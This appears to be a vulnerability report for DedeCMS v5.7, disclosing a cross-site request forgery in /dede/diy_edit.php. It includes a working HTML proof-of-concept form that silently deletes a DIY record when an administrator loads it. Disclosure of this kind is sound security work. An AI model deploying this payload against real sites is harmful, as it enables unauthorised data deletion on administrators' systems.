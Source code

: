 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /dede/diy_edit.php
![1](https://github.com/777erp/cms/assets/113673221/476a7374-654c-497a-a4f8-a194dd948356)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/diy_edit.php" method="POST">
      <input type="hidden" name="job" value="yes" />
      <input type="hidden" name="dopost" value="delete" />
      <input type="hidden" name="diyid" value="1" />
      <input type="hidden" name="imageField1&#46;x" value="42" />
      <input type="hidden" name="imageField1&#46;y" value="6" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

![2](https://github.com/777erp/cms/assets/113673221/85fa2eae-5caf-4ee8-a847-e35bc39606e1)


Successed

